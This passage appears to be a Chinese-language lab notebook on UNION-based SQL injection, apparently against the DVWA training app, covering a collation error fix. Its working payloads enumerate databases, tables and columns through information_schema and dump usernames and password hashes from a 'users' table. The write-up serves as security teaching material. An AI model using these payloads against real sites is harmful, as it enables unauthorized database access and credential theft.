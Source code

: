 报错：Illegal mix of collations for operation 'UNION'

需要指定数据库的字符类型

![image-20240913181048650](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913181048650.png)

![image-20240913181449385](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913181449385.png)



#### 4.2.2获取源数据库的数据表名称

```
1' union select 1, group_concat(table_name) from information_schema.tables#
```

![image-20240913185621240](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913185621240.png)



#### 4.2.3 获取全部数据库名称information_schema.tables

```
1' union select 1, group_concat(table_schema collate utf8_unicode_ci) from information_schema.tables#

'union select table_name,table_schema from information_schema.tables--+
```





### 4.3 根据数据库名称与表名称获取数据表全部字段名称

```sql
1' union select 1, group_concat(column_name collate utf8_unicode_ci) from information_schema.columns where table_schema = database() and table_name='users' #
```

```
字段名称
user_id,first_name,last_name,user,password,avatar,last_login,failed_login
```



![image-20240913182152912](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913182152912.png)



### 4.4 根据表名称 获取字段内容

根据显示位个数，打印指定字段：

```SQL
1' union select user,password from users#
```

![image-20240913182928052](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240913182928052.png)
